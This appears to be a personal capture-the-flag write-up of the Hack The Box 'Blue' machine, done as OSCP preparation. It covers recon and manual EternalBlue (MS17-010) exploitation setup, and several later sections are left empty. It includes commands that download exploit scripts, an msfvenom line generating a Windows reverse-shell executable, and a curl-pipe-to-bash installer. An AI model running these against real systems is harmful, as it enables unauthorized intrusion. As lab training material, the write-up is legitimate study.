

# Blue
Name: Blue
Date:  22/09/2022 - With Metasploit &
Difficulty:  Easy
Goals:  OSCP Prep, rewrite a python exploit
Learnt: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py exists and I am grateful to Tyler from https://www.wirebiters.com/

## Recon
The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
```bash
ping -c 3 10.129.105.18  
PING 10.129.105.18 (10.129.105.18) 56(84) bytes of data.
64 bytes from 10.129.105.18: icmp_seq=1 TTL=127 time=232 ms
64 bytes from 10.129.105.18: icmp_seq=2 TTL=127 time=233 ms
64 bytes from 10.129.105.18: icmp_seq=3 TTL=127 time=221 ms

--- 10.129.105.18 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 221.410/228.976/233.237/5.364 ms
```
Even though the name of this room is very siumilar to a famous exploit,
seeing the `Windows 7 Professional 7601 Service Pack 1 microsoft-ds` in nmap of anything to means to check for Eternal Blue. But I also run other nmap scan for completeness and Vuln returns the dreaded smb-vuln-ms17-010.

## Exploit

Although metasploit has a module for this and it a quick couple of commands to execute I will perform this manually. I looked up manual exploitation of Eternal Blue and found this  article: [redteamzone](https://redteamzone.com/EternalBlue/). Following the steps layed out while being mindful this is a windows 7 exploit using old versions and implementations of python. 

```bash
searchsploit eternal
searchsploit -m 42315.py # -m copies to current working directory
```


The dependency missing from my VM like the guide is mysmb.
```bash
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Potentially change username and password to `'vagrant'`, ran regardless to detirmine are incompatiblities 


I later returned to this box once more time and recognised it was considerable out of date so I tried the [huey](https://dev.to/0xhuey/manually-exploiting-ms17-010-python2-to-python3-3l2k)


```bash
# reverse_tcp for the OSCP guidelines
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.105.18 LPORT=4444 -f exe -o shell.exe
```

## Foothold

## PrivEsc

## Metapsploit
Just for sake of completion


## Returing to script this

After failing for hours months ago trying to covert python2 to python3 managing dependency hell seemed insane. Months ago I really want to do it in python3, but realistically for the future of python and exploits, why? So I decided to find modern solutions from others, [0xdf](https://0xdf.gitlab.io/2021/05/11/htb-blue.html) demonstrates python virtual environments something I never real knew existed or played with, which would require alot of building for not much pay off for me. I then came across https://www.wirebiters.com/hack-the-box-htb-walkthrough-blue-with-bonus-kali-initial-setup/.. where he list a Offensive Securirty repository with all the classes for all the exploits of all of searchsploit. This was like being kicked in the balls and being handed  amount of X desirable good/service tickets... WTF.. probably the must face slapping wget of my life.
```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
```

Then after much researching!
```bash
sudo apt install -y build-essential libssl-dev zlib1g-dev libbz2-dev libreadline-dev libsqlite3-dev wget curl llvm libncurses5-dev libncursesw5-dev xz-utils tk-dev libffi-dev liblzma-dev python3-openssl git
wait
curl https://pyenv.run | bash
wait
echo '' >> ~/.zshrc
echo '# Python 2.7 required!' >> ~/.zshrc
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.zshrc
echo 'export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.zshrc
echo -e 'if command -v pyenv 1>/dev/null 2>&1; then\n  eval "$(pyenv init --path)"\nfi' >> ~/.zshrc
echo '' >> ~/.zshrc

exec $SHELL


#The below is the work of [ben leeyr](https://benleeyr.wordpress.com/2022/01/30/pyenv-installation-on-kali/) . Only changes is to use `pip2` to get `impacket` and `init`
pyenv global 2.7.18
pyenv global system
pyenv init
```
add to your shell's .rc the below is for `zsh`'s `.zshrc`
```bash
# Load pyenv automatically by appending
# the following to 
~/.zprofile (for login shells)
and ~/.zshrc (for interactive shells) :

export PYENV_ROOT="$HOME/.pyenv"
command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"
eval "$(pyenv init -)"pyenv 
```
Then
```bash
pyenv shell 2.7.18
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
sudo python2 get-pip.py
sudo pip2 install -U setuptools
sudo pip2 install impacket
```

